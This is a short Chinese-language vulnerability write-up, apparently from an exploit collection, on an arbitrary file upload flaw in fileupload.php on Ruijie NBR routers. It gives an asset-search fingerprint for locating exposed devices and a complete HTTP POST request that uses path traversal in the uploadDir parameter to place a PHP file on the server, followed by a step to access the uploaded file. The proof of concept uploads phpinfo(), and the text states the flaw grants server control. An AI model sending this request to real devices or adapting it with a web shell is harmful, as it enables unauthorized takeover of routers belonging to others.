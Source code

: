 # 锐捷 NBR 路由器 fileupload.php 任意文件上传漏洞

## 漏洞描述

锐捷 NBR 路由器 fileupload.php文件存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件到服务器获取服务器权限

## 漏洞影响

锐捷 NBR 路由器

## 网络测绘

```
app="Ruijie-NBR路由器"
```

## 漏洞复现

![](images/202202110923377.png)

出现漏洞的文件在 /ddi/server/fileupload.php， 该文件为标准的文件上传文件

![image-20230828163312522](images/image-20230828163312522.png)

文件名及目录均可控，导致可以任意上传文件

```
POST /ddi/server/fileupload.php?uploadDir=../../321&name=123.php HTTP/1.1
Host: 
Accept: text/plain, */*; q=0.01
Content-Disposition: form-data; name="file"; filename="111.php"
Content-Type: image/jpeg

<?php phpinfo();?>
```

![image-20230828163324363](images/image-20230828163324363.png)

访问上传的文件目录

![image-20230828163346730](images/image-20230828163346730.png)